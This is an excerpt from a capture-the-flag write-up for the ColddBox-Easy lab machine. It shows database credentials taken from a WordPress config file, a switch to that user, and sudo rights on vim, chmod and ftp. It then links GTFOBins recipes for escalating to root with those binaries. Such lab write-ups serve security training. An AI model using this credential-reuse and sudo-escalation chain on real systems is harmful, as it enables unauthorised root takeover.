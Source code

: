 ```

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', '{i ate this, was too tasty}');

/** MySQL hostname */
define('DB_HOST', 'localhost');

{truncated}

define('WP_HOME', '/');
define('WP_SITEURL', '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```
We have credentials for `c0ldd`!

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
su c0ldd
Password: {i hid this :P}

c0ldd@ColddBox-Easy:/var/www/html$ cd ~
cd ~
c0ldd@ColddBox-Easy:~$ sudo -l
sudo -l
[sudo] password for c0ldd: {yes I ate this too. Don't judge me ok}

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

We see that we are allowed to run the 3 files as sudo. We use the following respectively for each of the binaries.

1. [GTFOBins - vim SUDO](https://gtfobins.github.io/gtfobins/vim/#sudo)
2. [GTFOBins - chmod SUDO](https://gtfobins.github.io/gtfobins/chmod/#sudo)
3. [GTFOBins - ftp SUDO](https://gtfobins.github.io/gtfobins/ftp/#sudo)

This completes our room. System FULLY compromised!
